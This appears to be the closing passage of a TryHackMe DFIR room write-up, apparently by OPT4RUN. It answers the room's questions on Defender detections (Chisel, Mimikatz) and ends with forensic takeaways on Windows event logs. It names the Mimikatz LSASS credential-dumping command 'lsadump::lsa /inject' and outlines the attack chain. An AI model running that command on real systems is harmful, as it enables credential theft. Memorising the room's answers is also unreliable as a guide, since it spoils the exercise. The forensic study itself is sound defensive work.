

The Mimikatz command used to extract NTLM hashes from LSASS was recovered from the event log.



**Q: What is the threat family ("Name") of the first quarantined file?**
```
VirTool:Win64/Chisel.G
```

**Q: What is the threat family of the next detected malware?**
```
HackTool:Win32/Mimikatz!pz
```

**Q: What is the file name of the downloaded Mimikatz executable?**
```
mimi.exe
```

**Q: Which Mimikatz command was used to extract hashes from LSASS memory?**
```
lsadump::lsa /inject
```

---

## Task 8 — Conclusion

The room wraps up with a handoff back to the customer. The attack chain on HR01-SRV has been fully reconstructed — from the initial web scan and shell upload, through PowerShell-driven tool deployment, RDP tunnelling, persistent scheduled task creation, and finally credential dumping via Mimikatz. Lateral movement to other servers likely followed, with the investigation continuing elsewhere.

---

## Key Takeaways

- **Security log clearance is not a clean bill of health.** EID 1102 itself confirms tampering, and multiple independent log channels survive the wipe entirely.

- **Web access logs** (Apache/IIS) are first-line artefacts for detecting web shell upload and usage. A POST to an upload directory followed by GETs to the same path is a reliable IOC pattern.

- **PowerShell ScriptBlock Logging (EID 4104)** is the most forensically complete PowerShell source — it decodes obfuscated and Base64 commands and captures non-interactive execution (web shell, RCE) that ConsoleHost_history misses entirely.

- **RDP session logs** (`TerminalServices-LocalSessionManager → Operational`) provide a clean, low-noise alternative to Security EID 4624 for tracking RDP logins. EID 21/24/25 correlate connect and disconnect pairs via Session ID.

- **Task Scheduler logs** (`TaskScheduler → Operational`) survive Security log clearance and expose persistence mechanisms. Cross-reference EID 106 with Task XML (`C:\Windows\System32\Tasks\`) for full task content and creation timestamps.

- **Windows Defender logs** are independent of the Security channel and the graphical detection history. EID 1116/1117 expose threat family, file path, download URL, and executing user — valuable even when EDR is absent.

- **Attacker OPSEC failures:** The Defender exclusion only covered `C:\Apache24`. Tools run outside that path — including Mimikatz — remained detectable. Partial exclusions are a common attacker mistake that leaves forensic artefacts intact.

- **Attack chain summary:** Web scan → web shell upload (PHP) → PowerShell via web shell → RDP tunnel (Chisel/httpd-proxy.exe) → RDP login as Administrator → scheduled task for persistent tunnel → Mimikatz credential dump → likely lateral movement.

---

*Write-up by [OPT4RUN](https://tryhackme.com/p/OPT4RUN)*